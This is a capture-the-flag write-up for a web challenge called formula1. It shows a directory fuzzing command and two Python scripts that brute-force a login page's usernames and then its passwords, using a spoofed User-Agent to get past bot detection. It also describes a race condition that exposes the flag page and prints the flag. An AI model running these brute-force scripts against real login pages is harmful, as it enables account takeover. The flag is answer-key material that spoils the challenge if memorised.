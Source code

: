 <img src="https://github.com/raul-dunca/rocsc_2025_quals/blob/main/.assets/formula1_description.png">

First, I did some reconnaissance:

```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u http://<ip>:<port>/FUZZ.php
```

Which showed `flag.php with` an HTTP 302 status code, so nothing of interest for now.
Given the message after a login attempt of “Invalid username” I created a script to brute force the username:

```python
import requests

url = "http://<ip>:<port>/login_process.php"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36"}

with open("/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt",encoding="utf-8") as f:
    users=[line.strip().lower() for line in f]

for user in users:
    data = {"username": user,"password": "1" }
    response = requests.post(url, headers=headers, data=data, timeout=5)
    if "Invalid username." not in response.text:
        print(f"[+] Response from {user}: {response.status_code}\n{response.text}\n")
        break
    else:
        print(f"[-] Ignoring response from {user} (Internal Server Error)")
```

Important note: the `User-Agent` header was needed because otherwise I got: "Error! Automated activity detected!"
The username I found was `max`. Now I tried to brute force the password with a similar script:

```python
import requests

url = "http://35.198.97.185:30981/login_process.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36",
    "Cookie": "PHPSESSID=2df687658e7ce6d6aaab47b56b2c55e0"
}

with open("passwords.txt",encoding='utf-8', errors='ignore') as f:
     passwords=[line.strip() for line in f]
user="max"

for password in passwords:
    data = {"username": user,"password": password }
    response = requests.post(url, headers=headers, data=data, timeout=5)
    if "Invalid password." not in response.text:
        print(f"[+] Response from {password}: {response.status_code}\n{response.text}\n")
        break
    else:
         print(f"[-] Ignoring response from {password} (Internal Server Error)")
```
While the script was running, I randomly tried to send another request in my browser to `login_process.php` with a random username and password, I got as a response the expected: “Invalid username. Try again”, but when I hit back on my browser, I was at `flag.php`. At first, I thought this was a bug and not the intended solution, but I now believe it was an intentional race condition behind.
Important note: In the password script the `Cookie` header should match the browser cookie, so the race condition is triggered.

`CTF{0c7a73dbf9b5e7c97ddce7c90c6876de8194346d5f4bddacfb821dc254f2f414}`